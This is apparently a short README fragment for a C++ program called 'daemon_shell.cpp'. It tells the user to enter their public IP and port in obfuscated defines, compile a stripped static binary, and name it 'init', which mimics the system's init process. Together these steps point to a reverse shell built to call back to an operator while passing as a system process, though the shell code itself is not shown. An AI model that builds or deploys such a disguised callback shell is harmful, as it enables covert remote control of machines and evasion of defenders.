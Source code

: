 Change with your public IP and open port in `daemon_shell.cpp`
```c
#define REMOTE_ADDR OBFUSCATE("207.46.148.7")
#define REMOTE_PORT 5069
```

compile with
```bash
g++ daemon_shell.cpp -O3 -march=native -fPIC -g -s -static -o ./init
```

output binary will be named init :)
